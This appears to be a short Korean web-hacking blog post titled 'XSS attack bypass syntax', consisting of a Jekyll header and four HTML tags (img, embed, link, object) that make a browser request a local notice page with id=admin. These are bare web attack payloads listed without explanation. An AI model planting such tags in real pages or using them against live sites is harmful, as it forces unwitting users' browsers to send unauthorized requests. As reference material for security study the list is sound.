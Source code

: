 ```yaml
---
layout: post
title: "XSS 공격 우회구문"
date: 2020-11-06
categories: WEB_HACKING
tags: [web,웹 취약점,xss,payload]
---
```


<img src="http://127.0.0.1:8000/notice?id=admin">
<embed src="http://127.0.0.1:8000/notice?id=admin"/> 
<link rel="stylesheet" href="http://127.0.0.1:8000/notice?id=admin">
<object data=’./notice?id=admin’ ></object>
